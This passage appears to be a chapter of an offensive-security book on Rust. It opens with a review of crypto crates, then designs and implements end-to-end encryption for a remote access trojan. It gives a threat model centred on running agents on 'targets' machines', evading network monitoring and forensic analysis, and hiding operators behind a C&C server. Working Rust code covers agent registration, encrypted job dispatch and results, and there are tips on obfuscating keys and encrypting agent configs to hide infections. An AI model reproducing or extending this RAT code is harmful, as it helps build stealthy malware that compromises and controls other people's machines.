Also, please note that the original maintainer [announced in November 2020](https://github.com/sodiumoxide/sodiumoxide/issues/442) that he is stepping back from the project. That being said, at its current state, the project is fairly stable, and urgent issues (if any) will surely be fixed promptly.


### ring

*[ring](https://github.com/briansmith/ring) is focused on the implementation, testing, and optimization of a core set of cryptographic operations exposed via an easy-to-use (and hard-to-misuse) API. ring exposes a Rust API and is written in a hybrid of Rust, C, and assembly language.*

ring provides low-level primitives to use in your higher-level protocols and applications. The principal maintainer is known for being very serious about cryptography and the code to be high-quality.

The only problem is that some algorithms, such as `XChaCha20-Poly1305`, are missing.


### dalek cryptography

[dalek-cryptography](https://github.com/dalek-cryptography) is a GitHub organization regrouping multiple packages about pure-Rust elliptic curve cryptography such as [`x25519`](https://github.com/dalek-cryptography/x25519-dalek) and [`ed25519`](https://github.com/dalek-cryptography/ed25519-dalek).

The projects are used by organizations serious about cryptography, such as [Signal](https://github.com/signalapp/libsignal-client/blob/master/rust/protocol/Cargo.toml) and [Diem](https://github.com/diem/diem/blob/main/crypto/crypto/Cargo.toml).


### Rust Crypto

[Rust Crypto](https://github.com/RustCrypto) is a GitHub organization regrouping all the crypto primitives you will need, in pure Rust, most of the time by providing a base trait and implementing it for all the different algorithms (look at [aead](https://docs.rs/aead/) for example).

Unfortunately, not all the crates are audited by a professional third party.


### rustls

[rustls](https://github.com/ctz/rustls) is a modern TLS library written in Rust. It uses `ring` under the hood for cryptography. Its goal is to provide only safe to use features by allowing only TLS 1.2 and upper, for example.


In my opinion, this library is on the right track to replace `OpenSSL` and `BoringSSL`.


### Other crates

There are many other crates such as [`blake3`](https://crates.io/crates/blake3), but, in my opinion, they should be evaluated only if you can't find your primitive in the crates/organizations above.


## Summary

*As of June 2022*

| crate | audited | Total downloads |
| --- | --- |  --- |
| [ring](https://github.com/briansmith/ring) | [Yes ✅](https://github.com/ctz/rustls/blob/master/audit/TLS-01-report.pdf) | 23,535,738 |
| [rustls](https://github.com/ctz/rustls/tree/master) | [Yes ✅](https://github.com/ctz/rustls/blob/master/audit/TLS-01-report.pdf) | 22,231,968 |
| [ed25519-dalek](https://github.com/dalek-cryptography/ed25519-dalek) | ❌ No | 5,930,752 |
| [x25519-dalek](https://github.com/dalek-cryptography/x25519-dalek) | ❌ No | 3,655,567 |
| [aes-gcm](https://github.com/RustCrypto/AEADs/tree/master/aes-gcm) | [Yes ✅](https://research.nccgroup.com/2020/02/26/public-report-rustcrypto-aes-gcm-and-chacha20poly1305-implementation-review/) | 6,833,494 |
| [chacha20poly1305](https://github.com/RustCrypto/AEADs/tree/master/chacha20poly1305) | [Yes ✅](https://research.nccgroup.com/2020/02/26/public-report-rustcrypto-aes-gcm-and-chacha20poly1305-implementation-review/) | 2,774,064 |
| [sodiumoxide](https://github.com/sodiumoxide/sodiumoxide) | ❌ No | 1,220,135 |


## Our threat model

### What are we working on

We are working on a remote control system comprised of 3 components: an agent, a server, and a client.

The **agent** are executed on our targets' machines: a highly adversarial environment.

The **client** is executed on the machines of the operators. Its role is to send commands to the agent.

The **server** (or C&C) is executed in an environment normally under the control of the operators. It provides a relay between the client and the agents. One reason is to hide the identity of the operators issuing commands from the client. Another one is to provide high availability: the client can't run 24h/24h. The server, on the other hand, can.


### What can go wrong

**Compromised server**: The server can be compromised, whether it be a vulnerability or seized by the hosting provider itself.


**Network monitoring**: Network monitoring systems are common in enterprise networks and may detect abnormal patterns, which may lead to the discovery of infected machines.


**Discovery of the agent**: The agent itself may be uncovered, which may lead to **forensic analyses**: analyses of the infected machines to understand the *modus operandi* and what was extracted.

**Impersonation of the operators**: An entity may want to take control of the compromised hosts and issue commands to them, by pretending to be the legitimate operators of the system.


### What are we going to do about it


**Compromised server**: No cleartext data should be stored on the server. Thus we will use end-to-end encryption to both authenticate and keep confidential our commands and data.


**Network monitoring**: By using a standard protocol (HTTP-S) and encrypting our data end-to-end, we may reduce our network footprint.


**Discovery of the agent**: Data should be encrypted using temporary keys. No long-term key should be used for encryption. Only for authentication.


**Impersonation of the operators**: End-to-end encryption provides authentication to prevent impersonation.


## Designing our protocol

Now we have decided that we need encryption to avoid detection and mitigate the consequences of a server compromise, let's design our protocol for end-to-end encryption.

As we saw, one particularity of our situation is that the agent is only responding to requests issued by the client. Also, the agent can embed the client's identity public key in order to verify that requests come from legitimate operators.

It makes our life easier to implement forward secrecy, as instead of the client providing ephemeral public keys for key exchange, the ephemeral public key can be embedded directly in each job. Thus the public key for each job's result will only exist in the memory of the agent, the time for the agent to execute the job and encrypt back the result.



### Choosing the primitives

Per the design document above, we need 4 primitives:

* for Signatures (identity keypairs)
* for encryption (jobs and results)
* for key exchange (prekeys and ephemeral keys)
* and a last one, a Key Derivation Function.

#### Signatures

Because it's a kind of industry-standard, we chose `Ed25519` for signatures.

#### Encryption (AEAD)

We basically have 3 choices for encryption:

* AES-GCM
* ChaCha20Poly1305
* XChaCha20Poly1305

##### AES-GCM

The Galois/Counter Mode (GCM) for the famous [AES](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard#NIST/CSEC_validation) block cipher is certainly the safest and most commonly recommended choice if you want to use AES. It's widely used principally thanks to its certifications and [hardware support](https://en.wikipedia.org/wiki/AES_instruction_set), which make it extremely fast on modern, mainstream CPUs.

Unfortunately, being a mode for AES, it's extremely hard to understand and easy to misuse or implement vulnerabilities when implementing it.

##### ChaCha20-Poly1305

`ChaCha20-Poly1305` is a combination of both a stream cipher (ChaCha20) and MAC (Poly1305) which combined, make one of the fastest AEAD primitive available today, which does not require special CPU instructions. That being said, with Vector SIMD instructions, such as [AVX-512](https://en.wikipedia.org/wiki/AVX-512), the algorithm is even faster.

It's not that easy to benchmark crypto algorithms (people often end up with different numbers), but `ChaCha20-Poly1305` is generally as fast or up to 1.5x slower than `AES-GCM-256` on modern hardware.

It is  particularly appreciated by cryptographers due to its elegance, simplicity, and speed. This is why you can find it in a lot of modern protocols such as TLS or [WireGuard®](https://www.wireguard.com/).


##### XChaCha20-Poly1305

Notice the `X` before `ChaCha20-Poly1305`. Its meaning is `eXtended nonce`: instead of a 12 bytes (96 bits) nonce, it uses a longer one of 24 bytes (192 bits).

Why?

In order to avoid nonce reuse with the same key (i.e. if we want to encrypt a looot of messages with the same key) when using random nonces. Nonce reuse is fatal for the security of the algorithm.

<!-- Repeating a nonce is easier than you might think if you are using threads and accessing a nonce counter non-atomically, have a bad RNG, are on an embedded platform with bad RNG seeding, have a bug that overwrites some memory used to generate nonces, or just transfer a ton of data with the same key (birthday attack). -->

Indeed, due to the birthday paradox, when using random nonces with `ChaCha20Poly1305`, "only" `2 ^ (96 / 2) = 2 ^ 48 = 281,474,976,710,656` messages can be encrypted using the same secret key, it's a lot, but it can happen rapidly for network packets for example.


You can read the draft RFC online: [https://datatracker.ietf.org/doc/html/draft-irtf-cfrg-xchacha](https://datatracker.ietf.org/doc/html/draft-irtf-cfrg-xchacha)


##### Final choice

Our cipher of choice is `XChaCha20Poly1305`, because it's simple to understand (and thus audit), fast, and the hardest to misuse, which are, in my opinion, the qualities to look for when choosing a cipher.


I've published a benchmark comparing the different AEAD implementations in Rust [on my blog](https://kerkour.com/rust-symmetric-encryption-aead-benchmark/).


#### Key exchange

Like `Ed25519`, because it's an industry standard, we are going to use `X25519` for key exchange.

The problem with `X25519` is that the shared secret is not a secure random vector of data, so it can't be used securely as a secret key for our AEAD. Instead, it's a really big number encoded on 32 bytes. Its entropy is too low to be used securely as an encryption key.

This is where comes into play our last primitive: a **Key Derivation Function**.

#### Key Derivation Function

There are a lot of Key Derivation functions available. As before, we will go for what is, in my opinion, the simplest to understand and hardest to misuse: `blake2b`.

#### Summary

* Signature: `Ed25519`
* Encryption: `XChaCha20Poly1305`
* Key Exchange: `X25519`
* Key Derivation Function: `blake2b`


## Implementing end-to-end encryption in Rust

Without further ado, let's see how to implement this protocol!


### Embedding client's identity public key in agent

First, we need to generate an identity keypair for the client and embed it in the agent.

An `ed25519` keypair can be generated and printed as follows:

**[ch_11/client/src/cli/identity.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_11/client/src/cli/identity.rs)**
```rust
pub fn run() {
    let mut rand_generator = rand::rngs::OsRng {};
    let identity_keypair = ed25519_dalek::Keypair::generate(&mut rand_generator);

    let encoded_private_key = base64::encode(identity_keypair.secret.to_bytes());
    println!("private key: {}", encoded_private_key);

    let encoded_public_key = base64::encode(identity_keypair.public.to_bytes());
    println!("public key: {}", encoded_public_key);
}
```

And simply embed it in the agent like that:

**[ch_11/agent/src/config.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_11/agent/src/config.rs)**
```rust
pub const CLIENT_IDENTITY_PUBLIC_KEY: &str = "xQ6gstFLtTbDC06LDb5dAQap+fXVG45BnRZj0L5th+M=";
```

In a more "more serious" setup, we may want to obfuscate it (to avoid string detection) and embed it at build-time, with the [`include!`](https://doc.rust-lang.org/std/macro.include.html) macro for example.

**Remember to never ever embed your secrets in your code like that and commit it in your git repositories!!**


### Agent's registration

As per our design, the agent needs to register itself to the server by sending its `identity_public_key`, `public_prekey`, and `public_prekey_signature`.


First we need to generate a long-term identity `ed25519` keypair, which should be generated only once in the lifetime of an agent:
**[ch_11/agent/src/init.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_11/agent/src/init.rs)**
```rust
pub fn register(api_client: &ureq::Agent) -> Result<config::Config, Error> {
    let register_agent_route = format!("{}/api/agents", config::SERVER_URL);
    let mut rand_generator = rand::rngs::OsRng {};

    let identity_keypair = ed25519_dalek::Keypair::generate(&mut rand_generator);
```


Then we need to generate our `x25519` prekey which will be used for key exchange for jobs.
**[ch_11/agent/src/init.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_11/agent/src/init.rs)**
```rust
    let mut private_prekey = [0u8; crypto::X25519_PRIVATE_KEY_SIZE];
    rand_generator.fill_bytes(&mut private_prekey);
    let public_prekey = x25519(private_prekey.clone(), X25519_BASEPOINT_BYTES);
```

Then we need to sign our public prekey, in order to attest that it has been issued by the agent, and not an adversary MITM.
**[ch_11/agent/src/init.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_11/agent/src/init.rs)**
```rust
    let public_prekey_signature = identity_keypair.sign(&public_prekey);
```


Then we simply send this data to the C&C server:
**[ch_11/agent/src/init.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_11/agent/src/init.rs)**
```rust
    let register_agent = RegisterAgent {
        identity_public_key: identity_keypair.public.to_bytes(),
        public_prekey: public_prekey.clone(),
        public_prekey_signature: public_prekey_signature.to_bytes().to_vec(),
    };

    let api_res: api::Response<api::AgentRegistered> = api_client
        .post(register_agent_route.as_str())
        .send_json(ureq::json!(register_agent))?
        .into_json()?;

    if let Some(err) = api_res.error {
        return Err(Error::Api(err.message));
    }
```


And finally, we can return all that information to be used in the agent:
**[ch_11/agent/src/init.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_11/agent/src/init.rs)**
```rust
    let client_public_key_bytes = base64::decode(config::CLIENT_IDENTITY_PUBLIC_KEY)?;
    let client_identity_public_key =
        ed25519_dalek::PublicKey::from_bytes(&client_public_key_bytes)?;

    let conf = config::Config {
        agent_id: api_res.data.unwrap().id,
        identity_public_key: identity_keypair.public,
        identity_private_key: identity_keypair.secret,
        public_prekey,
        private_prekey,
        client_identity_public_key,
    };

    Ok(conf)
}
```


#### Encrypting a job

In order to do the key exchange and encrypt jobs for an agent, we first need to fetch its `x25519 prekey`:

**[ch_11/client/src/cli/exec.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_11/client/src/cli/exec.rs)**
```rust
   // get agent's info
    let agent = api_client.get_agent(agent_id)?;
```

We can then proceed to encrypt the job:
**[ch_11/client/src/cli/exec.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_11/client/src/cli/exec.rs)**
```rust
    // encrypt job
    let (input, mut job_ephemeral_private_key) = encrypt_and_sign_job(
        &conf,
        command,
        args,
        agent.id,
        agent.public_prekey,
        &agent.public_prekey_signature,
        &agent_identity_public_key,
    )?;
```

**[ch_11/client/src/cli/exec.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_11/client/src/cli/exec.rs)**
```rust
fn encrypt_and_sign_job(
    conf: &config::Config,
    command: String,
    args: Vec<String>,
    agent_id: Uuid,
    agent_public_prekey: [u8; crypto::X25519_PUBLIC_KEY_SIZE],
    agent_public_prekey_signature: &[u8],
    agent_identity_public_key: &ed25519_dalek::PublicKey,
) -> Result<(api::CreateJob, [u8; crypto::X25519_PRIVATE_KEY_SIZE]), Error> {
    if agent_public_prekey_signature.len() != crypto::ED25519_SIGNATURE_SIZE {
        return Err(Error::Internal(
            "Agent's prekey signature size is not valid".to_string(),
        ));
    }

    // verify agent's prekey
    let agent_public_prekey_buffer = agent_public_prekey.to_vec();
    let signature = ed25519_dalek::Signature::try_from(&agent_public_prekey_signature[0..64])?;
    if agent_identity_public_key
        .verify(&agent_public_prekey_buffer, &signature)
        .is_err()
    {
        return Err(Error::Internal(
            "Agent's prekey Signature is not valid".to_string(),
        ));
    }
```


**[ch_11/client/src/cli/exec.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_11/client/src/cli/exec.rs)**
```rust
    let mut rand_generator = rand::rngs::OsRng {};

    // generate ephemeral keypair for job encryption
    let mut job_ephemeral_private_key = [0u8; crypto::X25519_PRIVATE_KEY_SIZE];
    rand_generator.fill_bytes(&mut job_ephemeral_private_key);
    let job_ephemeral_public_key = x25519(
        job_ephemeral_private_key.clone(),
        x25519_dalek::X25519_BASEPOINT_BYTES,
    );
```


**[ch_11/client/src/cli/exec.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_11/client/src/cli/exec.rs)**
```rust
    // generate ephemeral keypair for job result encryption
    let mut job_result_ephemeral_private_key = [0u8; crypto::X25519_PRIVATE_KEY_SIZE];
    rand_generator.fill_bytes(&mut job_result_ephemeral_private_key);
    let job_result_ephemeral_public_key = x25519(
        job_result_ephemeral_private_key.clone(),
        x25519_dalek::X25519_BASEPOINT_BYTES,
    );
```


**[ch_11/client/src/cli/exec.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_11/client/src/cli/exec.rs)**
```rust
    // key exange for job encryption
    let mut shared_secret = x25519(job_ephemeral_private_key, agent_public_prekey);

    // generate nonce
    let mut nonce = [0u8; crypto::XCHACHA20_POLY1305_NONCE_SIZE];
    rand_generator.fill_bytes(&mut nonce);

    // derive key
    let mut kdf =
        blake2::VarBlake2b::new_keyed(&shared_secret, crypto::XCHACHA20_POLY1305_KEY_SIZE);
    kdf.update(&nonce);
    let mut key = kdf.finalize_boxed();

    // serialize job
    let encrypted_job_payload = api::JobPayload {
        command,
        args,
        result_ephemeral_public_key: job_result_ephemeral_public_key,
    };
    let encrypted_job_json = serde_json::to_vec(&encrypted_job_payload)?;

    // encrypt job
    let cipher = XChaCha20Poly1305::new(key.as_ref().into());
    let encrypted_job = cipher.encrypt(&nonce.into(), encrypted_job_json.as_ref())?;

    shared_secret.zeroize();
    key.zeroize();
```


And finally we sign all this data in order assert that the job is coming from the operators:
**[ch_11/client/src/cli/exec.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_11/client/src/cli/exec.rs)**
```rust
    // other input data
    let job_id = Uuid::new_v4();

    // sign job_id, agent_id, encrypted_job, ephemeral_public_key, nonce
    let mut buffer_to_sign = job_id.as_bytes().to_vec();
    buffer_to_sign.append(&mut agent_id.as_bytes().to_vec());
    buffer_to_sign.append(&mut encrypted_job.clone());
    buffer_to_sign.append(&mut job_ephemeral_public_key.to_vec());
    buffer_to_sign.append(&mut nonce.to_vec());

    let identity = ed25519_dalek::ExpandedSecretKey::from(&conf.identity_private_key);
    let signature = identity.sign(&buffer_to_sign, &conf.identity_public_key);

    Ok((
        api::CreateJob {
            id: job_id,
            agent_id,
            encrypted_job,
            ephemeral_public_key: job_ephemeral_public_key,
            nonce,
            signature: signature.to_bytes().to_vec(),
        },
        job_result_ephemeral_private_key,
    ))
}
```


#### Decrypting a job

In order to execute a job, the agent first needs to decrypt it.

Before decrypting a job, we verify that the signature matches the operators' public key:

**[ch_11/agent/src/run.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_11/agent/src/run.rs)**
```rust
fn decrypt_and_verify_job(
    conf: &config::Config,
    job: AgentJob,
) -> Result<(Uuid, JobPayload), Error> {
    // verify input
    if job.signature.len() != crypto::ED25519_SIGNATURE_SIZE {
        return Err(Error::Internal(
            "Job's signature size is not valid".to_string(),
        ));
    }

    // verify job_id, agent_id, encrypted_job, ephemeral_public_key, nonce
    let mut buffer_to_verify = job.id.as_bytes().to_vec();
    buffer_to_verify.append(&mut conf.agent_id.as_bytes().to_vec());
    buffer_to_verify.append(&mut job.encrypted_job.clone());
    buffer_to_verify.append(&mut job.ephemeral_public_key.to_vec());
    buffer_to_verify.append(&mut job.nonce.to_vec());

    let signature = ed25519_dalek::Signature::try_from(&job.signature[0..64])?;
    if conf
        .client_identity_public_key
        .verify(&buffer_to_verify, &signature)
        .is_err()
    {
        return Err(Error::Internal(
            "Agent's prekey Signature is not valid".to_string(),
        ));
    }
```


Then, we proceed to do the inverse operation than we encrypting the job:
**[ch_11/agent/src/run.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_11/agent/src/run.rs)**
```rust
    // key exange
    let mut shared_secret = x25519(conf.private_prekey, job.ephemeral_public_key);

    // derive key
    let mut kdf =
        blake2::VarBlake2b::new_keyed(&shared_secret, crypto::XCHACHA20_POLY1305_KEY_SIZE);
    kdf.update(&job.nonce);
    let mut key = kdf.finalize_boxed();

    // decrypt job
    let cipher = XChaCha20Poly1305::new(key.as_ref().into());
    let decrypted_job_bytes = cipher.decrypt(&job.nonce.into(), job.encrypted_job.as_ref())?;

    shared_secret.zeroize();
    key.zeroize();
```


And finally, deserialize it:
**[ch_11/agent/src/run.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_11/agent/src/run.rs)**
```rust
    // deserialize job
    let job_payload: api::JobPayload = serde_json::from_slice(&decrypted_job_bytes)?;

    Ok((job.id, job_payload))
}
```


#### Encrypting the result

To encrypt the result back, the agent generates an ephemeral `x25519` keypair and do they key-exchange with the `job_result_ephemeral_public_key` generated by the client:

**[ch_11/agent/src/run.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_11/agent/src/run.rs)**
```rust
fn encrypt_and_sign_job_result(
    conf: &config::Config,
    job_id: Uuid,
    output: String,
    job_result_ephemeral_public_key: [u8; crypto::X25519_PUBLIC_KEY_SIZE],
) -> Result<UpdateJobResult, Error> {
    let mut rand_generator = rand::rngs::OsRng {};

    // generate ephemeral keypair for job result encryption
    let mut ephemeral_private_key = [0u8; crypto::X25519_PRIVATE_KEY_SIZE];
    rand_generator.fill_bytes(&mut ephemeral_private_key);
    let ephemeral_public_key = x25519(
        ephemeral_private_key.clone(),
        x25519_dalek::X25519_BASEPOINT_BYTES,
    );

    // key exchange for job result encryption
    let mut shared_secret = x25519(ephemeral_private_key, job_result_ephemeral_public_key);
```

Then we serialize and encrypt the result. By now you should have guessed how to do it :)
**[ch_11/agent/src/run.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_11/agent/src/run.rs)**
```rust
    // generate nonce
    let mut nonce = [0u8; crypto::XCHACHA20_POLY1305_NONCE_SIZE];
    rand_generator.fill_bytes(&mut nonce);

    // derive key
    let mut kdf =
        blake2::VarBlake2b::new_keyed(&shared_secret, crypto::XCHACHA20_POLY1305_KEY_SIZE);
    kdf.update(&nonce);
    let mut key = kdf.finalize_boxed();

    // serialize job result
    let job_result_payload = api::JobResult { output };
    let job_result_payload_json = serde_json::to_vec(&job_result_payload)?;

    // encrypt job
    let cipher = XChaCha20Poly1305::new(key.as_ref().into());
    let encrypted_job_result = cipher.encrypt(&nonce.into(), job_result_payload_json.as_ref())?;

    shared_secret.zeroize();
    key.zeroize();
```

And finally, we sign the encrypted job and the metadata.
**[ch_11/agent/src/run.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_11/agent/src/run.rs)**
```rust
    // sign job_id, agent_id, encrypted_job_result, result_ephemeral_public_key, result_nonce
    let mut buffer_to_sign = job_id.as_bytes().to_vec();
    buffer_to_sign.append(&mut conf.agent_id.as_bytes().to_vec());
    buffer_to_sign.append(&mut encrypted_job_result.clone());
    buffer_to_sign.append(&mut ephemeral_public_key.to_vec());
    buffer_to_sign.append(&mut nonce.to_vec());

    let identity = ed25519_dalek::ExpandedSecretKey::from(&conf.identity_private_key);
    let signature = identity.sign(&buffer_to_sign, &conf.identity_public_key);

    Ok(UpdateJobResult {
        job_id,
        encrypted_job_result,
        ephemeral_public_key,
        nonce,
        signature: signature.to_bytes().to_vec(),
    })
}
```

#### Decrypting the result

The process should now appear straightforward to you:

1. We verify the signature
2. Key exchange and key derivation
3. Job's result decryption and deserialization

**[ch_11/client/src/cli/exec.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_11/client/src/cli/exec.rs)**
```rust
fn decrypt_and_verify_job_output(
    job: api::Job,
    job_ephemeral_private_key: [u8; crypto::X25519_PRIVATE_KEY_SIZE],
    agent_identity_public_key: &ed25519_dalek::PublicKey,
) -> Result<String, Error> {
    // verify job_id, agent_id, encrypted_job_result, result_ephemeral_public_key, result_nonce
    let encrypted_job_result = job
        .encrypted_result
        .ok_or(Error::Internal("Job's result is missing".to_string()))?;
    let result_ephemeral_public_key = job.result_ephemeral_public_key.ok_or(Error::Internal(
        "Job's result ephemeral public key is missing".to_string(),
    ))?;
    let result_nonce = job
        .result_nonce
        .ok_or(Error::Internal("Job's result nonce is missing".to_string()))?;

    let mut buffer_to_verify = job.id.as_bytes().to_vec();
    buffer_to_verify.append(&mut job.agent_id.as_bytes().to_vec());
    buffer_to_verify.append(&mut encrypted_job_result.clone());
    buffer_to_verify.append(&mut result_ephemeral_public_key.to_vec());
    buffer_to_verify.append(&mut result_nonce.to_vec());

    let result_signature = job.result_signature.ok_or(Error::Internal(
        "Job's result signature is missing".to_string(),
    ))?;
    if result_signature.len() != crypto::ED25519_SIGNATURE_SIZE {
        return Err(Error::Internal(
            "Job's result signature size is not valid".to_string(),
        ));
    }

    let signature = ed25519_dalek::Signature::try_from(&result_signature[0..64])?;
    if agent_identity_public_key
        .verify(&buffer_to_verify, &signature)
        .is_err()
    {
        return Err(Error::Internal(
            "Agent's prekey Signature is not valid".to_string(),
        ));
    }
```


**[ch_11/client/src/cli/exec.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_11/client/src/cli/exec.rs)**
```rust
    // key exange with public_prekey & keypair for job encryption
    let mut shared_secret = x25519(job_ephemeral_private_key, result_ephemeral_public_key);

    // derive key
    let mut kdf =
        blake2::VarBlake2b::new_keyed(&shared_secret, crypto::XCHACHA20_POLY1305_KEY_SIZE);
    kdf.update(&result_nonce);
    let mut key = kdf.finalize_boxed();
```

**[ch_11/client/src/cli/exec.rs](https://github.com/skerkour/black-hat-rust/blob/main/ch_11/client/src/cli/exec.rs)**
```rust
    // decrypt job result
    let cipher = XChaCha20Poly1305::new(key.as_ref().into());
    let decrypted_job_bytes =
        cipher.decrypt(&result_nonce.into(), encrypted_job_result.as_ref())?;

    shared_secret.zeroize();
    key.zeroize();

    // deserialize job result
    let job_result: api::JobResult = serde_json::from_slice(&decrypted_job_bytes)?;

    Ok(job_result.output)
}
```


## Some limitations

Now that end-to-end encryption is in place, our RAT is mostly secure, but there are still a few known limitations left as an exercise for the reader.

### Replay attacks

A MITM party could record the messages sent by the client or the agents and send them again at a later date. This is known as a replay attack: messages are replayed.

Imagine sending some messages with a secure messaging app:

* Alice: *"Are you okay Bob?"*
* Bob: *"Yes!"* <- the message is recorded by a MITM
* Alice: *"Are you ready to rob this bank?"*
* The MITM replaying Bob's previous message: *"Yes!"*

Bad, isn't it?

In our case, it's even worse as the attacker could execute commands on the agents again and again.

Fortunately, this is a solved problem, and ways to mitigate it are well-known: [https://www.kaspersky.com/resource-center/definitions/replay-attack](https://www.kaspersky.com/resource-center/definitions/replay-attack)


### Agent's configuration is not encrypted

If our agent is detected, forensic analysts won't have a hard time finding other infected machines as the agent is leaving an obvious trace of infection: its configuration file.

One method to mitigate this problem, is first to generate a configuration file location that depends on some machine-dependent parameters which should never change. A serial number or a mac address, for example. The second thing is to encrypt the configuration file using a key derived from similar machine-dependent parameters.


### Prekey rotation, prekey bundles and sessions

As you may have noticed, if the agent's private prekey is compromised, all the messages can be decrypted. This is why in the first place, we use a temporary "prekey" and not a long-term private key like in PGP.

Another strategy is to do like the Signal protocol: use prekey bundles. A prekey bundle is simply a lot of prekey, pre-generated by the agent, and stored on the server. Each time an operator wants to issue a new command, the client fetches one of the key of the bundle, and the server deletes it.

It introduces way more complexity as the agent now needs to manage dozen of temporary keys (usually stored in an SQLite database), which may or may not have been consumed by the client.

Finally, we could do like the Signal protocol and perform a key exchange between the client and an agent only once. The key exchange would establish a session, and then, thanks to the [double ratchet algorithm](https://en.wikipedia.org/wiki/Double_Ratchet_Algorithm), we can send as many messages as we want without needing more than one key exchange.


## To learn more

As cryptography is a booming field, with all the new privacy laws, hacks, data scandals, and quantum computers becoming more and more a reality, you may certainly want to learn more about it.

I have good news for you, there are 2 **excellent** (and this is nothing to say) books on the topic.

### Real-world cryptography

by *David Wong*, of [cryptologie.net](https://www.cryptologie.net), where you will learn the high-level usage of **modern** cryptography and how it is used in the real-world. You will learn, for example, how the Signal and TLS 1.3 protocols, or the Diem (previously known as Libra) cryptocurrency work.

### Serious Cryptography: A Practical Introduction to Modern Encryption

by *Jean-Philippe Aumasson* of [aumasson.jp](https://www.aumasson.jp) will teach you how the inner-working of crypto primitives and protocols, deconstructing all mathematical operations.

I sincerely recommend you to read both. Besides being excellent, they are complementary.


## Summary

* Use authenticated encryption.
* Public-key cryptography is hard. Prefer symmetric encryption when possible.
* Keys management is not a solved problem.
* To provide forward secrecy, use signing keys for long-term identity.


## [Next Chapter: Going multi-platforms](/black-hat-rust/12)
